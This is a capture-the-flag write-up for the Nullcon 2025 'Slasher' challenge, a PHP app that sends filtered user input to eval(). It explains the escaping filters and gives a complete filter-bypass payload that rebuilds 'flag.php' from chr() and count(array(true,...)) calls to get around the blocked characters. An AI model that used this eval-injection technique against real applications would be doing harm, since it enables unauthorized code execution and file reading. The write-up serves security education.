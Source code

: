 # WhiteDukesDZ - Nullcon CTF 2025 Writeup: Slasher

![WhiteDukesDZ Logo](challenge/web-slasher-challenge.png)

---

## Challenge Summary

This challenge presents a PHP web application that allows users to submit arbitrary input to be evaluated by the server using PHP's `eval()`. The application attempts to sanitize user input with several functions (`htmlentities`, `addslashes`, `addcslashes`), but still passes the processed input directly to `eval`, making it vulnerable to code injection. The goal is to craft input that bypasses these filters and executes code to retrieve the flag from the server.

## Application Analysis

After visiting challenge main page, we notice a button `view source`, when clicked we can see the PHP code of the page (see `challenge/index.php`)

![WhiteDukesDZ Logo](demonstration/web-slasher-index.png)

After analyzing the code at `challenge/index.php`, we see that when a `POST` request is made with an `input` value:

    - The `input` must be non-empty and a scalar (integer, float, string, or boolean). If not, no further processing occurs.

    1. The input's special characters are converted to HTML entities using `htmlentities`, so characters like `<`, `>`, `&`, `'`, and `"` cannot be interpreted as HTML or JavaScript. Invalid UTF-8 is replaced with a safe character.

    2. The input is further escaped using `addslashes`, which adds backslashes before `'`, `"`, `\\`, and NULL bytes.

    3. The input is then processed by `addcslashes`, which escapes a custom set of characters: `+?<>&v=${}%*:.[]_-0123456789xb `;`.

    4. The fully sanitized input is passed to `eval` as PHP code (`$output = eval("$input;")`).

If `$output` is set, it is displayed on the page.

### Security Observations

- Note that `flag.php` is included at the top, so code injection could potentially access the flag if the filters are bypassed.

### Local Testing

To test payloads, you can modify the source code and set the desired value directly in the `$input` variable, then deploy the PHP file locally:

```sh
php -S localhost:8000 -t challenge/
```

Access the app at `http://localhost:8000`. For example, setting `$input = "readfile('flag.php')"` will display the flag locally (make sure to create a `flag.php` file in the same directory). You can view the output in the browser or inspect the page source (`CTRL + U`).

However, you cannot simply submit `readfile('flag.php')` as input through the web interface due to the sanitization and escaping steps. Instead, you need to craft a payload that, after all the filters, will result in the same code being executed by `eval` and reveal the flag.

---

## Solution

In PHP, some built-in functions can help us construct payloads that bypass character restrictions:

    - `implode(string $separator, array $array): string` — joins elements of an array into a single string, with an optional separator.

    - `chr(int $codepoint): string` — returns a one-character string for the given ASCII codepoint.

For example, in `readfile('flag.php')`, the function name `readfile` is allowed, but the string `'flag.php'` is blocked by the filters. To reconstruct it, we can use:

```php
implode(array(chr(102),chr(108),chr(97),chr(103),chr(46),chr(112),chr(104),chr(112)))
```
This produces the string `'flag.php'` eliminating some forbidden characters. So the final payload would be:

```php
readfile(implode(array(chr(102),chr(108),chr(97),chr(103),chr(46),chr(112),chr(104),chr(112))))
```

But we are still using numbers which are also forbidden, so we need to find a way to replace them.

    - `count(array $array): int` — returns the number of elements in an array. For example, `count(array(true))` is `1`, `count(array(true,true))` is `2`, and so on.

By using arrays of `true` values, we can build any number we need for the ASCII codes in `chr()` without ever writing a digit. This technique lets us construct any string character-by-character, fully bypassing the numeric and character restrictions.

For example, to build the string `'flag.php'`:

```php
readfile(implode(array(chr(count(array(true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true))),chr(count(array(true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true))),chr(count(array(true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true))),chr(count(array(true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true))),chr(count(array(true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true))),chr(count(array(true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true))),chr(count(array(true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true))),chr(count(array(true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true,true))))))
```

This lets us build the final payload for code execution without using any forbidden characters or digits. Put it as an input and submit, `CTRL + U` in your browser to see the flag.

![WhiteDukesDZ Logo](demonstration/web-slasher-flag.png)
